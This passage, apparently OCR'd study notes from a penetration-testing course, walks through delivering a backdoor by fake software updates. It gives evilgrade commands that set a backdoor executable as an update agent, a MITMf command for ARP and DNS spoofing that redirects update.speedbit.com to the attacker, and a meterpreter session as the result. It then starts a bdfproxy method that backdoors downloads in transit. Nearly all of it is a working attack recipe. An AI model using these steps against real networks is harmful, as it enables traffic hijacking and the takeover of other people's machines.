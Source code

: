 `show modules`

selecting one

`configure <module>`

setting backdoor location

`set agent <agent location>`

starting server

`start`

start dns spoofing and handler

to run evilgrade , run the following
 
`./evilgrade`

`show modules`

`configure <modulname in our case : dap>`

show options in dap

`show options`

`set agent /var/www/html/backdoor.exe`

`show options`

you might want to change endsite, this is the site that will be displayed after update successful, we can change it to any website

`start`

our backdoor will serve as an update , we will redirect any update request to virtualHost option value. start spoofing

edit mitmf.conf, change dns port if the dns port matches with the port of the evilgrade, in a records we will see that we are redirectiong any request from update.speedbit.com to our own ip 

`mitmf --arp --spoof --gateway <host ip> --target <target ip> -i <interface name> --dns`

--dns is for dns spoofing

`show options`

`exploit`

go to target and update it, then we will get a meterpreter session, where we can run the folllowing

`sysinfo`

### another backdoor delivery method using bdfproxy tool

in this method we will wait for the target machine to download something. then our backdoor will automatically start downloading

setting ip address in config, set up the proxy mode to transparent, so the other person would have interet connection and change the ip address, everywhere you see host, you should change the ip address
